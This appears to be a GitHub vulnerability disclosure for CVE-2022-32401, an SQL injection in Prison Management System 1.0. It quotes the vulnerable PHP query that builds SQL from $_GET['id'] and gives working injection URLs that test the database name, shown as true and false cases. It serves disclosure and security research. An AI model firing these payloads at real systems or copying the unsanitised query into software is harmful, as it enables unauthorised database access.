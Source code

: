 # CVE-2022-32401
## Info
#### Prison Management System 1.0 - SQL Injection<br>
#### Vendor Homepage : https://www.sourcecodester.com/ <br>
#### Software Link : https://www.sourcecodester.com/php/15368/prison-management-system-phpoop-free-source-code.html

[+] Vulnerability : SQL Injection<br>
[+] Vulnerability Location : `$_GET['id']` in `/pms/admin/inmates/manage_privilege.php:4`
```php
$qry = $conn->query("SELECT * FROM `inmate_list` where id = '{$_GET['id']}'");
```

## PoC
- Payload : 
```
# Error Based
http://localhost/pms/admin/inmates/manage_privilege.php?id=1'-if(database()='pms_db',0,1)%23
```
- True : 
`http://localhost/pms/admin/inmates/manage_privilege.php?id=1'-if(database()='pms_db',0,1)%23`
![True](./img/cve-2022-32401_true.png)
- False : 
`http://localhost/pms/admin/inmates/manage_privilege.php?id=1'-if(database()='wrong',0,1)%23`
![False](./img/cve-2022-32401_false.png)